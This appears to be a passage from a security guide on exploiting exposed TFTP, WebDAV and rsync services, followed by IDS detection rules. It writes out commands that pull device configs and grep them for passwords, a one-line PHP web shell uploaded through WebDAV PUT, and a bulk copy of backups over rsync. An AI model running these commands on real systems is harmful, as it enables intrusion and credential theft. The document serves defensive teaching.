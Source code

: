 **Scenario 2: Configuration Theft**
1. Discover TFTP on network device: `192.168.1.254:69`
2. Download config: `tftp 192.168.1.254 -c get startup-config`
3. Extract passwords: `grep -i "password\|secret" startup-config`
4. **Result**: Device admin passwords, SNMP communities

**Scenario 3: Web Shell Upload**
1. Discover WebDAV: `http://192.168.1.53/webdav`
2. Test PUT method: `curl -X PUT http://192.168.1.53/webdav/test.txt`
3. Upload shell: `curl -X PUT http://192.168.1.53/webdav/shell.php -d '<?php system($_GET["c"]); ?>'`
4. Execute: `curl http://192.168.1.53/webdav/shell.php?c=whoami`
5. **Result**: Web server compromise

**Scenario 4: Data Exfiltration**
1. Discover rsync: `rsync://192.168.1.52/backups`
2. List contents: `rsync rsync://192.168.1.52/backups/`
3. Download all: `rsync -av rsync://192.168.1.52/backups/ ./backups/`
4. **Result**: Complete backup repository copied

## Detection & Defense

### Network Detection

**IDS Signatures**:
```
# NFS showmount scan
alert tcp any any -> $HOME_NET 2049 (
    msg:"NFS Showmount Enumeration";
    flow:to_server,established;
    content:"|00 00 00 00 00 00 00 01|";
    threshold:type threshold, track by_src, count 10, seconds 60;
    sid:3000100;
)

# FTP anonymous login attempts
alert tcp any any -> $HOME_NET 21 (
    msg:"FTP Anonymous Login Attempt";
    flow:to_server,established;
    content:"USER anonymous";
    nocase;
    sid:3000101;
)

# WebDAV OPTIONS scan
alert tcp any any -> $HOME_NET any (
    msg:"WebDAV OPTIONS Enumeration";
    flow:to_server,established;
    content:"OPTIONS ";
    content:"DAV";
    threshold:type threshold, track by_src, count 5, seconds 60;
    sid:3000102;
)
```

